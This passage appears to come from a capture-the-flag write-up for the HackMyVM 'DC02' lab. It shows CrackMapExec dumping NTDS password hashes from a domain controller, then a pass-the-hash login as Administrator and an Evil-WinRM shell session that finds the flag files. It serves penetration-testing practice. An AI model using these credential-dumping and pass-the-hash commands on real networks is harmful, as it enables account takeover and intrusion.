 ```bash
SMB         SOUPEDECODE.LOCAL 445    DC01             [+] Dumped 1065 NTDS hashes to /home/pentester/.cme/logs/DC01_SOUPEDECODE.LOCAL_2024-10-13_160255.ntds of which 964 were added to the database
```

We have dumped the credentials of all the users in the domain. We can use the administrator's hash to log into the domain controller locally using WinRm and read both flags on the target.
```bash
┌──(pentester㉿kali)-[~/…/HackMyVM/DC02/Scans/AD Enumeration]
└─$ crackmapexec smb DC01.SOUPEDECODE.LOCAL -u Administrator -H 8982babd4da89d33210779a6c5b078bd 
SMB         SOUPEDECODE.LOCAL 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         SOUPEDECODE.LOCAL 445    DC01             [+] SOUPEDECODE.LOCAL\Administrator:8982babd4da89d33210779a6c5b078bd (Pwn3d!)

┌──(pentester㉿kali)-[~/Desktop/HackMyVM/DC02]
└─$ evil-winrm -i 10.0.2.32 -u Administrator -H 8982babd4da89d33210779a6c5b078bd                 
Evil-WinRM shell v3.5

<SNIP>
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>cd ..
*Evil-WinRM* PS C:\Users\Administrator> ls Desktop


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         6/12/2024   1:01 PM             33 root.txt
*Evil-WinRM* PS C:\Users\Administrator> cd ..
*Evil-WinRM* PS C:\Users> ls


    Directory: C:\Users


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         6/15/2024  12:56 PM                Administrator
d-r---         6/15/2024  10:54 AM                Public
d-----         6/17/2024  11:30 AM                zximena448


*Evil-WinRM* PS C:\Users> dir zximena448\Desktop


    Directory: C:\Users\zximena448\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         6/12/2024   1:01 PM             33 user.txt

```
